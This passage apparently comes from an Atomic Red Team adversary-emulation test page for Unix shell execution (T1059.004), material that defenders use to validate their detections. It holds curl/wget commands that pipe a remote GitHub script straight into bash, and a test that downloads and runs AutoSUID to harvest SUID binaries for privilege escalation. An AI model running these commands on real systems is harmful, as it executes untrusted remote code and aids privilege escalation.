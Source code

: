 
```sh
curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
<br/>

## Atomic Test #3 - Harvest SUID executable files
AutoSUID application is the Open-Source project, the main idea of which is to automate harvesting the SUID executable files and to find a way for further escalating the privileges.

**Supported Platforms:** Linux


**auto_generated_guid:** 46274fc6-08a7-4956-861b-24cbbaa0503c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| autosuid | Path to the autosuid shell script | path | PathToAtomicsFolder/T1059.004/src/AutoSUID.sh|
| autosuid_url | Path to download autosuid shell script | url | https://raw.githubusercontent.com/IvanGlinkin/AutoSUID/main/AutoSUID.sh|


#### Attack Commands: Run with `sh`! 


```sh
chmod +x #{autosuid}
bash #{autosuid}
```

#### Cleanup Commands:
```sh
rm -rf #{autosuid}
```



#### Dependencies:  Run with `bash`!
##### Description: AutoSUID must exist on disk at specified location (#{autosuid})
##### Check Prereq Commands:
```bash
if [ -f #{autosuid} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
curl --create-dirs #{autosuid_url} --output #{autosuid}
```

